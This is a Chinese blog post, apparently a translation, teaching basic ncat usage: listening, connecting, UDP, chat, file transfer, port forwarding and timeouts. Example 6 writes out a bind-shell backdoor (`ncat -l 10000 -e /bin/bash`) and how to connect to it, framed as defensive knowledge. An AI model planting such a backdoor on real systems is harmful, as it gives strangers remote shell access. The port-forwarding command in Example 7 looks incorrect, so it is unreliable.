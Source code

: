 ```yaml
---
layout: post
description: 简单又有趣的linux命令
author: jesse
---
```


![ncat](/assets/images/blogs/nc-ncat-command-examples-Linux-Systems.jpg){:zoom=40%}

### 简介
`ncat`或者说`nc`是一款功能类似 `cat`的工具(concatnate简写)，但是是用于网络的。  
它是一款拥有多种功能的`命令行`工具，可以用来在网络上读、写以及重定向数据。  
它被设计成可以被脚本或其他程序调用的可靠的后端工具。  
同时由于它能创建任意所需的连接，因此也是一个很好的网络调试工具。  

`ncat`或`nc`既可以是一个端口扫描工具，也可以是一个安全工具，又能是一个监测工具，还可以作为一个简单的TCP代理。 由于有这么多的功能，它被誉为是网络界的瑞士军刀。  
这个工具是每个系统管理员都应该知道并且掌握它的。  

大部分Debian的发行版都内置了ncat，如果没有安装的话，参考下面的CentOS的安装命令：  

```bash
[root@daohuo ~]# yum install nmap-ncat -y
```

系统管理员可以用它来审计系统安全，用它来找出开放的端口然后保护这些端口。  
管理员还能用它作为客户端来审计 Web 服务器、telnet 服务器、邮件服务器等，通过 nc 我们可以控制发送的每个字符，也可以查看对方的回应。  
我们也可以让它去捕获客户端送出的数据，来知道它们做了什么。  
>
本文主要使用ncat.  
以下进入正题:

### 例子1:） 监听入站连接
使用`-l`参数，可以使`ncat`进入监听模式。完整的命令如下：  

    $ ncat -l port_number

比如：
```bash
[root@daohuo ~]# ncat -l 8080
```
这会在8080端口监听所有的入站连接。

### 例子2:）连接到远程系统
要使用`ncat`连接到远程系统，我们可以使用下面的命令
```bash
$ ncat hostname port_number
```
比如说：
```bash
[root@daohuo ~]# ncat 192.168.1.100 8080
```
这时服务器192.168.1.100的8080端口与本机已经建立了连接（前提是服务器开放此端口）。假设说是tomcat服务器，我们可以GET主页：
```
GET / HTTP/1.1
```
或
```
GET /index.jsp HTTP/1.1
```
### 例子3:）连接UDP端口
默认情况下，`ncat`会自动连接TCP端口。我们可以给定参数`-u`来使它连接一个udp端口。
```bash
$ ncat -l -u 1234
```
现在使用命令查看1234端口的监听情况：
```bash
[root@daohuo ~]# netstat -tunlp | grep 1234
udp        0      0 0.0.0.0:1234        0.0.0.0:*          27728/ncat          
udp6       0      0 :::1234             :::*               27728/ncat  
```
假设我们想发送或者说测试某个远程主机 UDP 端口的连通性，我们可以使用下面命令：
```
$ ncat -v -u hostname udp_port_number
```
例如：
```bash
[root@daohuo ~]# ncat -v -u localhost 1234
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:1234.
```
### 例子4:）聊天工具
`ncat`也可以被用来当做一个聊天工具，我们可以配置服务器去监听一个特定端口，远程服务器将通过这个端口建立TCP连接，从而开始发送信息。
在服务器端运行：
```bash
$ ncat -l 1234
```
在能访问这台服务器的一台机器上运行：
```bash
$ ncat your_host_name 1234
```
然后就可以开始发送信息啦。它们会在你的终端上显示。
### 例子5:）使用ncat发送网络文件
`ncat`还能用来在系统间传输文件，虽然这并不推荐，因为绝大多数系统默认都安装了`ssh/scp`。不过如果你恰好使用一个没有`ssh/scp`的系统的话，你可以用`ncat`来作最后的努力。  
在要接受文件的机器上开启ncat监听模式：
```bash
$ ncat -l 1234 > file.txt
```
现在在要发送文件的机器上运行：
```bash
$ ncat receive_file_host 1234 --send-only < sent_data.txt
```
在这里，sent_data.txt是被发送的文件。--send-only参数会在文件传输完成后即刻关闭连接。如果不添加这个参数，你不知道什么时候你的文件会传送完成，而且需要手动Ctrl+C受冻关闭连接。  
>
原文说用这个方法还可以拷贝整个磁盘分区，有风险，但并没有说风险来自哪里。  
我认为这个传输文件过程必须非常干净，接收方开放的端口只能由发送方访问，但这是很难做到的。不能保证互联网上的没有恶意的脚本小子去做端口扫描，数据包一旦不经意间发送到这个端口，整个文件数据流会被破坏。  
可能这是作者未说的风险之一吧。 

### 例子6:）创建系统后门
`ncat`命令还可以用来在系统中创建后门，并且这种技术也确实被黑客大量使用。 为了保护我们的系统，我们需要知道它是怎么做的。 创建后门的命令为：
```bash
$ ncat -l 10000 -e /bin/bash
```
`-e`选项连接了bash到10000端口。现在客户端可以连接到服务器这个端口，启动服务器的bash shell:
```bash
$ ncat remote_host 10000
```
然后是命令行操作啦。
### 例子7:）端口转发
我们也可以用`ncat`，使用`-c`选项做端口转发，要实现这一点的语法如下：
```
$ ncat -u -l 80 -c 'ncat -u -l 8080'
```
现在所有的通向80端口的连接会被转发到8080端口啦。
>
通过这个命令，你可以不使用nginx，不修改tomcat的默认端口就可以将你的tomcat项目通过默认的HTTP协议80端口访问啦。

### 例子8:）设置连接超时
`ncat`的监听模式会一直运行，除非你手动停止它或完成一次连接任务。但我们用`-w`来设置超时时间。
```bash
$ ncat -w 10 hostname port_number
```
这会让连接在建立连接10秒后断开。不过只能在客户端上启用这个，而不是服务器端。

### 例子9:）使用`-k`选项保持持续ncat监听
当客户端从服务器断开连接后，过一段时间服务器也会停止继续监听。但我们可以使用`-k`选项强制服务器继续监听：
```bash
$ ncat -l -k 8080
```
现在就算客户端的连接断开，服务器也会继续待命。
  
>
自此就结束啦，如有疑问或翻译不妥当的或任何想说的，都可以在下方留言或者发送信息、邮件哦。   
原文: <https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/>
